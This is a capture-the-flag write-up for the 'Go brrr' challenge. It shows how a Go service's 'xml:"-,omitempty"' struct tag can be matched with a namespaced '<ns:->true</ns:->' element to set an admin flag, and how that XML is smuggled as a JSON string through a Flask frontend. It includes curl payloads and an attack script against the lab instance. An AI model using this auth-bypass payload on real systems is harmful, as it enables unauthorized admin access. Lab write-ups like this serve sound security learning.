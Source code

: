 # Go brrr

Co-authors: @p3ngu1nw

```
Enough php for today, let's Go for some Python
```

In attachment, a Python file is provided:

```python
from flask import Flask, request, session
import requests
import secrets
import os


app = Flask(__name__)

app.secret_key = secrets.token_hex(32)

auth_service_url = 'http://localhost:8082/user'

@app.route('/user', methods=['POST'])
def user_handler():
    data = request.get_json() or None
    if data is None or not "username" in data or not "password" in data:
        return "Invalid data format (not a valid JSON schema)", 400
    check = requests.post(auth_service_url, json=data).text
    if check == '"Authorized"':
        session['is_admin'] = True
        return "Authorized"
    else:
        return "Not Authorized", 403
    

@app.route('/admin', methods=['GET'])
def admin_panel():
    if session.get('is_admin'):
        flag = os.getenv('DYN_FLAG', 'BHFlagY{dummy_flag_for_testing}')
        return "Welcome to the admin panel! Here is the flag: " + flag
    else:
        return "Access denied", 403

app.run(host='0.0.0.0', port=8081)
```

It sends JSON to another service and waits for `Authorized`. The other service is implemented in Go:

```go
package main

import (
	"encoding/json"
	"encoding/xml"
	"fmt"
	"io/ioutil"
	"net/http"
)

type User struct {
	Username string `json:"username" xml:"username"`
	Password string `json:"password" xml:"password"`
	IsAdmin  bool   `json:"-"  xml:"-,omitempty"`
}

func userHandler(w http.ResponseWriter, r *http.Request) {
	var user User

	body, err := ioutil.ReadAll(r.Body)
	if err != nil {
		http.Error(w, "Unable to read body", http.StatusBadRequest)
		return
	}

	
	if err := xml.Unmarshal(body, &user); err != nil {
		fmt.Println("XML unmarshal failed, trying JSON:", err)
		if err := json.Unmarshal(body, &user); err != nil {
			http.Error(w, "Invalid data format (not XML or JSON)", http.StatusBadRequest)
			return
		}
	}

	w.Header().Set("Content-Type", "application/json")
	if user.IsAdmin {
		w.Write([]byte(`"Authorized"`))
	} else {
		w.Write([]byte(`"Not Authorized"`))
	}
}

func main() {
	http.HandleFunc("/user", userHandler)
	fmt.Println("Server running on 0.0.0.0:8082")
	http.ListenAndServe("0.0.0.0:8082", nil)
}
```

The problem is:

```go
	Username string `json:"username" xml:"username"`
	Password string `json:"password" xml:"password"`
	IsAdmin  bool   `json:"-"  xml:"-,omitempty"`
```

`xml:"-,omitempty"` does not mean the field is ignored. It is `"-"` plus `omitempty`, so it matches a tag named `-`. However, `<->` is an invalid XML tag, we need to add namespace prefix:

```shell
$ curl -X POST http://127.0.0.1:8082/user --data "<User><username>test</username><password>test</password><ns:->true</ns:-></User>"
"Authorized"
```

The next problem is that, we are passing JSON to the python service, but we need to send XML to the golang service. This part is solved by @p3ngu1nw by using quotes:

```shell
$ curl -X POST http://172.17.0.3:8081/user -H "Content-Type: application/json" --data '"<User><username>test</username><password>test</password><ns:->true</ns:-></User>"'
Authorized
```

So the last thing is to login in the online instance and grab the flag. The attack script is written by @p3ngu1nw:

```python
import requests

url = "http://udnuz3uxblc-0.playat.flagyard.com/user"

# 构造 XML payload，让 Go 服务解析后 IsAdmin=true
xml_payload = """
"<User><username>test</username><password>test</password><ns:->true</ns:-></User>"
"""

headers = {
    "Content-Type": "application/json"
}

session = requests.Session()
resp = session.post(url, data=xml_payload, headers=headers)

print("Response from /user:", resp.text)

# 如果成功，可以访问 /admin 拿 flag
resp2 = session.get("http://udnuz3uxblc-0.playat.flagyard.com/admin")
print("Response from /admin:", resp2.text)
```

Output:

```
Response from /user: Authorized
Response from /admin: Welcome to the admin panel! Here is the flag: BHFlagY{4000704b8dec451f3f648384230d55b4}
```
